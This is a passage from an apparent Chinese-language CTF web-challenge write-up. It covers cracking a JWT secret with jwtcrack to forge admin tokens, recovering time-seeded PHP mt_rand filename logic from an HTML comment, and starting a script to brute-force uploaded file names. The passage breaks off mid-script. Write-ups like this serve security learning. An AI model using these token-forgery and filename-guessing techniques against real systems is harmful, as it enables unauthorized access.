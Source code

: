 		  ```
	- check.php看到提示
		- 这里的check.php包含了`change.php`的逻辑和chatgpt的回答，可以知道change.php会将上传的文件保存在一个随机文件名的文件中，随机文件名由当前时间戳作为种子生成。
		- ```html
		  
		  Warning: Undefined array key "avatar" in /var/www/html/check.php on line 13
		  
		  Warning: Trying to access array offset on value of type null in /var/www/html/check.php on line 13
		  
		  Warning: Undefined array key "avatar" in /var/www/html/check.php on line 20
		  
		  Warning: Trying to access array offset on value of type null in /var/www/html/check.php on line 20
		  {"status":"success"} /* 是的，如果你知道服务器端使用的种子（seed），你可以通过相同的种子来生成相同的随机文件名。在你提供的代码中，种子是通过当前时间生成的，因此如果你知道服务器端生成文件名的时间，你可以使用相同的时间戳作为种子来生成相同的文件名。 以下是一个示例脚本，假设你知道服务器端生成文件名的时间戳为 $serverSeed： php Copy
		  Warning: Undefined array key "avatar" in /var/www/html/check.php on line 56
		  
		  Warning: Trying to access array offset on value of type null in /var/www/html/check.php on line 56
		  Uploaded file name: HztUUVQ3X4.请注意，上述示例中的 $serverSeed 是一个假设的值，你需要替换为服务器端实际使用的种子。另外，该示例仅适用于你确切知道服务器端生成文件名的种子，并且能够将该种子值传递给你的脚本。如果你无法获取种子值或不确定种子值的情况下，无法准确生成相同的文件名。 */ 
		  ```
	- 登陆，用`c-jwt-cracker`爆jwt，然后用[jwt.io](https://jwt.io)伪造jwt
		- ```
		  ./jwtcrack 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJRaW5nd2FuIiwibmFtZSI6InVzZXIiLCJhZG1pbiI6ImZhbHNlIn0.gzCFCz2Hw5c_EIjcM2lQ2QL3aDW3rAAHU2ZQ50_tnY4'
		  Secret is "yibao"
		  ```
	- change.html看到注释
		- ```html
		   <!-- 一直连不上？连不上就对啦！ -->
		    <!-- 
		      php版本为8.0
		    function php_mt_seed($seed)
		          {
		              mt_srand($seed);
		          }
		          $seed = time();
		          php_mt_seed($seed);
		          $characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
		  
		          $newFileName = '';
		          for ($i = 0; $i < 10; $i++) {
		              $newFileName .= $characters[mt_rand(0, strlen($characters) - 1)];
		          }
		    
		    -->
		  ```
	- 写脚本生成一系列可能的文件名用于爆破
		- ```php
		  <?php
		  function php_mt_seed($seed)
		  {
		      mt_srand($seed);
		  }
		  function filenameByTimeStamp($seed)
		  {
		      php_mt_seed($seed);
		      $characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
		  